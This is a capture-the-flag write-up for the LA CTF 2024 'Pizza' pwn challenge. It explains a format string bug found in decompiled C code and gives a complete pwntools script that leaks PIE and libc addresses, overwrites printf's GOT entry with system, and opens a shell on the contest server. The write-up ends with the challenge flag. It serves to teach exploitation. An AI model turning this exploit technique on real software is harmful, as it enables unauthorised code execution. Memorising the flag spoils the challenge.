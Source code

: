 ```yaml
---
title: Pizza
type: writeup
date: 2024-02-22T01:41:59+02:00
description: Writeup for Pizza [LA CTF 2024]
author: sunbather
tags:
- pwn
draft: false
---
```

___

## Challenge Description

yummy

## Intuition

We are given an ELF 64-bit binary, with the following protections:

```
$ checksec pizza
LIBC_FILE=/lib/x86_64-linux-gnu/libc.so.6
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH	Symbols		FORTIFY	Fortified	Fortifiable	FILE
Partial RELRO   No canary found   NX enabled    PIE enabled     No RPATH   No RUNPATH   44 Symbols	  No	0		2		pizza
```

We can see it has partial RELRO and no canary, which suggests buffer overflow and GOT overwrite can be done. After opening it in Ghidra we can see it is a format string vulnerability.
```c
undefined8 main(void)

{
  char local_148 [300];
  int local_1c;
  char local_15;
  int local_14;
  int local_10;
  uint local_c;
  
  setbuf(stdout,(char *)0x0);
  puts("Welcome to kaiphait\'s pizza shop!");
  do {
    puts("Which toppings would you like on your pizza?");
    for (local_c = 0; (int)local_c < 0xc; local_c = local_c + 1) {
      printf("%d. %s\n",(ulong)local_c,*(undefined8 *)(available_toppings + (long)(int)local_c * 8))
      ;
    }
    printf("%d. custom\n",0xc);
    for (local_10 = 0; local_10 < 3; local_10 = local_10 + 1) {
      printf("> ");
      __isoc99_scanf("%d",&local_1c);
      if ((local_1c < 0) || (0xc < local_1c)) {
        printf("Invalid topping");
        return 1;
      }
      if (local_1c == 0xc) {
        printf("Enter custom topping: ");
        __isoc99_scanf(" %99[^\n]",local_148 + (long)local_10 * 100);
      }
      else {
        strcpy(local_148 + (long)local_10 * 100,*(char **)(available_toppings + (long)local_1c * 8))
        ;
      }
    }
    puts("Here are the toppings that you chose:");
    for (local_14 = 0; local_14 < 3; local_14 = local_14 + 1) {
      printf(local_148 + (long)local_14 * 100);
      putchar(10);
    }
    puts("Your pizza will be ready soon.");
    printf("Order another pizza? (y/n): ");
    __isoc99_scanf(" %c",&local_15);
  } while (local_15 == 'y');
  return 0;
}
```
We can select a custom topping and then use it as a format string payload. The plan to exploit this particular binary is to leak the PIE address and libc base and then overwrite the printf function with system.

## Solution

There's not much interesting things going on in this particular solution. It's a standard leak into GOT overwrite.

```py
#!/usr/bin/env python3

from pwn import *

def send_custom_topping(topping):
    target.sendlineafter(b"> ", b"12")
    target.sendlineafter(b"Enter custom topping: ", topping)


is_remote = True
if is_remote:
    target = remote("chall.lac.tf", 31134) 
else:
    context.binary = bin = ELF("./pizza")
    libc = ELF("./libc.so.6")
    ld = ELF("./ld-linux-x86-64.so.2")

    target = process([ld.path, bin.path], env={"LD_PRELOAD": libc.path})
    #target = process("./pizza")

pie_offset = 0x1189
printf_offset_pie = 0x4020

if is_remote:
    system_offset = 0x04c490
    libc_offset = 0x2724a
else:
    system_offset = 0x50d70 
    libc_offset = 0x29d90

send_custom_topping(b"%49$p")
send_custom_topping(b"%47$p")
send_custom_topping(b"sunbather from .hidden pwning")

target.recvline()
pie_base = int(target.recvline(), 16) - pie_offset
libc_base = int(target.recvline().strip(), 16) - libc_offset
print(hex(pie_base), hex(libc_base))
print(target.recvline())

system_addr = p64(libc_base + system_offset)

# Prepare the bytes to be written
x = int.from_bytes(system_addr[:2], byteorder='little')
y = int.from_bytes(system_addr[2:4], byteorder='little')

print(system_addr, hex(u64(system_addr)))

target.sendlineafter(b"Order another pizza? (y/n): ", b"y")

printf = pie_base + printf_offset_pie
# find offsets with gdb and trial and error
payload = "%{}c%22$hn%{}c%23$hn".format(x, y-x).encode() 
payload = payload + b"A" * 2 + p64(printf) + p64(printf + 2)
print(payload)
# Overwrite printf with system
send_custom_topping(b"say cheese!")
send_custom_topping(payload)
send_custom_topping(b"/bin/sh")

target.interactive()
```

### Flag

``lactf{golf_balls_taste_great_2tscx63xm3ndvycw}``
